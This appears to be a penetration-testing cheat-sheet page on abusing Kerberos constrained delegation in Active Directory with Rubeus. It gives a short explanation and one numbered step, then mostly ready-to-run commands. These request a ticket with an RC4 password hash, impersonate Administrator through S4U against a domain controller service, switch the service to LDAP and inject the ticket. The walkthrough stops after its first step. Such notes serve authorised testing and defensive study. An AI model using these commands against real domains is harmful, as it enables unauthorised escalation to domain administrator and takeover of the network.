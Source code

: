 # 🟢 Constrained Delegation

#### Explaining Constrained Delegation with Rubeus

Constrained Delegation is a security concept within Active Directory environments that allows designated services to request access to other services on behalf of a user. Rubeus, a powerful tool for Kerberos interaction and abuse, facilitates the exploitation and demonstration of this concept.

1. **Acquiring a Ticket Granting Ticket (TGT):** The first step involves acquiring a TGT for a user account (`svc_with_delegation`) that has been configured with constrained delegation permissions. The command below uses the RC4 hash of the user's password to request the TGT.

### Constrained Delegation with Rubeus

{% code overflow="wrap" %}
```
.\Rubeus.exe asktgt /user:svc_with_delegation /domain:targetdomain.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
```
{% endcode %}

{% code overflow="wrap" %}
```
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /ptt
```
{% endcode %}

{% code overflow="wrap" %}
```
.\Rubeus.exe s4u /user:sa_with_delegation /impersonateuser:Administrator /msdsspn:time/dc /altservice:ldap /ptt /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
```
{% endcode %}
